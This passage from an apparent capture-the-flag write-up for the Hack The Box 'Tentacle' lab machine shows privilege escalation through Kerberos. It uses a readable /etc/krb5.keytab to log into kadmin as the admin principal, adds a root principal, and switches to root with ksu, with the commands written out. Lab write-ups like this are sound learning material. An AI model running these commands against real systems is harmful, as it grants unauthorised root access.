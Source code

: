 ```bash
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
```

we can use keytab admin principal to authenticate into Kerberos V5 administration system console. 
```bash
kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
# -t keytab file
# -k use that keytab file to authenticate
# -p specify principal
```

A Kerberos principal is a unique identity to which Kerberos can assign tickets. if we create principal for root user than we can use "[ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html)" to change user to root.

with `add_principal` command we can add keytab principal, But it This command requires the "add" privilege.

**Check privileges with `get_privs` command**
```bash
kadmin:  get_privs
current privileges: INQUIRE ADD MODIFY DELETE
```

**adding principal**
```bash
add_principal root@REALCORP.HTB
```

**than change user to root**
```bash
ksu root
```

![](/assets/img/posts/tentacle/tentacle-rooted.png)
